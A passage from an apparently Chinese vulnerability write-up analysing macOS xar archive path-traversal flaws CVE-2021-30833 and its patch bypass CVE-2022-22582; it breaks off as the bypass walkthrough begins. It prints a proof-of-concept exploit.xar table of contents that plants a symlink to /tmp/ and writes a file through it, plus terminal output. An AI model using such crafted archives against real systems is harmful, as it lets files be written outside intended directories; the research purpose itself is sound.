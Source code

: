 漏洞EXP演示：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xar>
 <toc>
  <checksum style="sha1">
   <offset>0</offset>
   <size>20</size>
  </checksum>
  <file id="1">
   <link type="directory">/tmp/</link>
   <type>symlink</type>
   <name>.x</name>
  </file>
  <file id="2">
    <data>
     <length>6</length>
     <encoding style="application/octet-stream"/>
     <offset>20</offset>
     <size>6</size>
     <extracted-checksum style="sha1"> aaf4c61ddcc5e8a2dabede0f3b482cd9aea9434d</extracted-checksum>
     <archived-checksum style="sha1"> aaf4c61ddcc5e8a2dabede0f3b482cd9aea9434d</archived-checksum>
    </data>
    <type>file</type>
    <name>.x/test</name>
   </file>
 </toc>
</xar>
```

在升级CVE-2021-30833补丁之后，在name属性中包含正斜杠的文件将转换为字符，如下面所示

```js
> xar xar -tvf exploit.xar
??????????  unknown/unknown       6 1970-01-01 00:00:00 .x:test
??????????  unknown/unknown       0 1970-01-01 00:00:00 .x
> xar xar -xvf exploit.xar
.x:test
.x
> xar cat /tmp/test
cat: /tmp/test: No such file or directoryxar l
```

0x03 浅析CVE-2022-22582
---------------------

CVE-2022-22582本质是对CVE-2021-30833的补丁程序的绕过再利用。

当我们试图读取同时包含目录路径和同名目录的文件时，会遇到一个错误，因为该目录是在路径之前创建的。但是，当我们放弃之前的思路，将会发现可以继续创建文件。

![be8e31112d7ee92610adbfa12749635.jpg](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-3a778cb8216d1744b9702fabec3483d9c10ce833.jpg)

首先，我们创建一个文件，其中包含三个目录：
